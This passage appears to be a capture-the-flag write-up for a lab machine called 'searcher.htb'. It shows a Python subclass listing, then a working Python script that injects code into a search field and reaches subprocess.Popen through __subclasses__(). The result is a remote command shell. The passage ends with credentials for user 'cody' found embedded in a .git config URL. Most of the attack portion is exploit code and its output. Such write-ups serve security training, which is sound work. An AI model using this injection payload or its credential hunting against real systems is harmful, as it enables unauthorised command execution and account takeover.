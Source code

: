 ```bash
<class 'zlib.Decompress'>, <class '_bz2.BZ2Compressor'>, <class '_bz2.BZ2Decompressor'>, <class '_lzma.LZMACompressor'>, <class '_lzma.LZMADecompressor'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'threading._RLock'>, <class 'threading.Condition'>, <class 'threading.Semaphore'>, <class 'threading.Event'>, <class 'threading.Barrier'>, <class 'threading.Thread'>, <class 'select.poll'>, <class 'select.epoll'>, <class 'selectors.BaseSelector'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class 'webbrowser.BaseBrowser'>, <class '__future__._Feature'>, <class 'datetime.date'>, <class 'datetime.time'>, <class 'datetime.timedelta'>, <class 'datetime.tzinfo'>, <class 'sqlite3.Row'>, <class 'sqlite3.Cursor'>, <class 'sqlite3.Connection'>, <class 'sqlite3.Node'>, <class 'sqlite3.Cache'>, <class 'sqlite3.Statement'>, <class 'sqlite3.PrepareProtocol'>, <class 'ast.AST'>, <class 'ast.NodeVisitor'>, <class 'dis.Bytecode'>, <class 'tokenize.Untokenizer'>, <class 'inspect.BlockFinder'>, <class 'inspect._void'>, <class 'inspect._empty'>, <class 'inspect.Parameter'>, <class 'inspect.BoundArguments'>, <class 'inspect.Signature'>, <class 'aenum.NonMember'>, <class 'aenum.Member'>, <Sentinel>, <class 'aenum._Addendum'>, <class 'aenum.constant'>, <class 'aenum.NamedConstant'>, <class 'aenum._TupleAttributeAtIndex'>, <class 'aenum.undefined'>, <NamedTuple 'NamedTuple'>, <class 'aenum.enum'>, <no_value>, <class 'aenum._proto_member'>, <no_arg>, <aenum 'Enum'>, <class 'aenum.module'>, <class 'CArgObject'>, <class '_ctypes.CThunkObject'>, <class '_ctypes._CData'>, <class '_ctypes.CField'>, <class '_ctypes.DictRemover'>, <class '_ctypes.StructParam_Type'>, <class '_struct.Struct'>, <class '_struct.unpack_iterator'>, <class 'ctypes.CDLL'>, <class 'ctypes.LibraryLoader'>, <class 'platform._Processor'>, <class 'pyperclip.CheckedCall'>, <class 'typing._Final'>, <class 'typing._Immutable'>, <class 'typing._TypeVarLike'>, <class 'typing.Generic'>, <class 'typing._TypingEmpty'>, <class 'typing._TypingEllipsis'>, <class 'typing.Annotated'>, <class 'typing.NamedTuple'>, <class 'typing.TypedDict'>, <class 'typing.NewType'>, <class 'typing.io'>, <class 'typing.re'>, <class 'gettext.NullTranslations'>, <class 'weakref.finalize._Info'>, <class 'weakref.finalize'>, <class 'click._compat._FixupStream'>, <class 'click._compat._AtomicFile'>, <class 'click.utils.LazyFile'>, <class 'click.utils.KeepOpenFile'>, <class 'click.utils.PacifyFlushWrapper'>, <class 'click.types.ParamType'>, <class 'click.parser.Option'>, <class 'click.parser.Argument'>, <class 'click.parser.ParsingState'>, <class 'click.parser.OptionParser'>, <class 'click.formatting.HelpFormatter'>, <class 'click.core.Context'>, <class 'click.core.BaseCommand'>, <class 'click.core.Parameter'>, <class '_json.Scanner'>, <class '_json.Encoder'>, <class 'json.decoder.JSONDecoder'>, <class 'json.encoder.JSONEncoder'>]
```
From here I discovered that the module number 137 is the os module and 218 is popen. Based on such information I modified the previous program to exploit such vulnerability to estabilish a kind of shell with the target:
```python
import requests

url = 'http://searcher.htb/search'

while True:
	payload = input("$ ")
	data = {
		"engine": "Google",
		"query": "aaa').__class__.__base__.__subclasses__()[218]('{}', shell=True, stdout=-1).communicate()[0].strip() #".format(payload)
	}

	res = requests.post(url, data = data)
	print(res.text)
```
Thanks to this program I managed to obtain a shell with the user `svc`. I found the user flag in /home/svc/user.txt.
Moreover, I kept searching on the remote host using this program looking for a set of credentials to gain a stable access to the system. The temporary shell that we have creates a shell in the `/var/www/app` directory. There I found a `.git` folder, containing lots of files. Digging into them, I found that the config file contains some useful information:
```bash
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```
